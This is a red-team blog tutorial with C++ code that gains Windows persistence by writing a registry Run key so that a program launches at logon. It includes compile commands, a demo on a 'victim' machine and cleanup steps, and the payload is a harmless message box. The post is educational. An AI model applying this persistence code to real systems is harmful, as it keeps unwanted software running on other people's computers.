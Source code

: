 ```yaml
---
title:  "Malware development: persistence - part 1. Registry run keys. C++ example."
date:   2022-04-20 10:00:00 +0600
header:
  teaser: "/assets/images/51/2022-04-20_09-43.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/51/2022-04-20_09-43.png){:class="img-responsive"}    

This post starts a series of articles on windows malware persistence techniques and tricks.    

Today I'll write about the result of my own research into the "classic" persistence trick: startup folder registry keys.    

### run keys

Adding an entry to the "run keys" in the registry will cause the app referenced to be executed when a user logs in. These apps will be executed under the context of the user and will have the account's associated permissions level.    

The following run keys are created by default on Windows Systems:    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`    
![pers](/assets/images/51/2022-04-20_18-57.png){:class="img-responsive"}    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`    
![pers](/assets/images/51/2022-04-20_18-58.png){:class="img-responsive"}    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`    
![pers](/assets/images/51/2022-04-20_18-59.png){:class="img-responsive"}    

> Please note that this suggests to another trick to anti-VM (VirtualBox)    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`    
![pers](/assets/images/51/2022-04-20_18-59_1.png){:class="img-responsive"}    

Threat actors can use these configuration locations to execute malware to maintain persistence through system reboots. Threat actors may also use masquerading to make the registry entries look as if they are associated with legitimate programs.    

### practical example

Let's go to look at a practical example. Let's say we have a *"malware"* `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mwindows -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/51/2022-04-20_19-08.png){:class="img-responsive"}    

And save it to folder `Z:\\2022-04-20-malware-pers-1\`:    

![pers](/assets/images/51/2022-04-20_19-10.png){:class="img-responsive"}    

Then, let's create a script `pers.cpp` that creates registry keys that will execute our program `hack.exe` when we log into Windows:    

```cpp
/*
pers.cpp
windows low level persistense via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry key. Registry keys can be added from the terminal to the run keys to achieve persistence, but since I love to write code, I wanted to show how to do it with some lines of code.    

### demo

Let's compile our `pers.cpp` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/51/2022-04-20_19-20.png){:class="img-responsive"}    

Then, first of all, check registry keys in the victim's machine:    

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-35.png){:class="img-responsive"}    

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-39.png){:class="img-responsive"}    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again:    

![pers](/assets/images/51/2022-04-20_09-40.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-20_09-40_1.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-20_09-44.png){:class="img-responsive"}    

Pwn! Everything is worked perfectly :)    

After the end of the experiment, delete the keys:    

```powershell
Remove-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "hack"
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-46.png){:class="img-responsive"}    

### windows 11

This trick is also work on `Windows 11`:

![pers](/assets/images/51/2022-04-21_10-29.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-30.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-30_1.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-30_2.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-21_10-31.png){:class="img-responsive"}    

And cleanup:

![pers](/assets/images/51/2022-04-21_10-32.png){:class="img-responsive"}    

### conclusion

Creating registry keys that will execute an malicious app during Windows logon is one of the oldest tricks in the red team playbooks. Various threat actors and known tools such as Metasploit, Powershell Empire provide this capability therefore a mature blue team specialists will be able to detect this malicious activity.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-04-20-malware-pers-1)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
